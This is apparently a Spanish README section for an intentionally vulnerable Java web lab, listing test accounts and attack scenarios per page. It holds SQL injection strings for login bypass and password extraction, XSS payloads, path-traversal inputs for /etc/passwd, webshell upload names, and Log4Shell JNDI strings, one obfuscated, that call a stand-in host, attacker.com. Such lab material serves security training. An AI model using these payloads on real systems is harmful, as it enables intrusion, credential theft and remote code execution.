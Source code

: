 ### Usuarios de prueba
- **admin** / **password123** (Administrador)
- **user** / **user123** (Usuario normal)  
- **guest** / **guest** (Invitado)

## 🎯 Escenarios de Testing

### SQL Injection Testing

**En la página Database (`/database.jsp`):**

```sql
-- Consultas de reconocimiento
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name='users'

-- Bypass de autenticación  
' OR '1'='1' --
admin' OR '1'='1' --

-- Union-based injection
1 UNION SELECT password,username,email,role,id FROM users
```

### XSS Testing

**En la búsqueda principal (`/index.jsp`):**

```javascript
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```

### File Upload Testing

**En Upload (`/upload.jsp`):**

```bash
# Path traversal
../../etc/passwd
../../../windows/system32/

# Archivos maliciosos
shell.php
backdoor.jsp
malware.exe
```

### Log4Shell Testing

**En cualquier campo de input:**

```bash
${jndi:ldap://attacker.com/exploit}
${jndi:dns://attacker.com}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attacker.com/a}
```
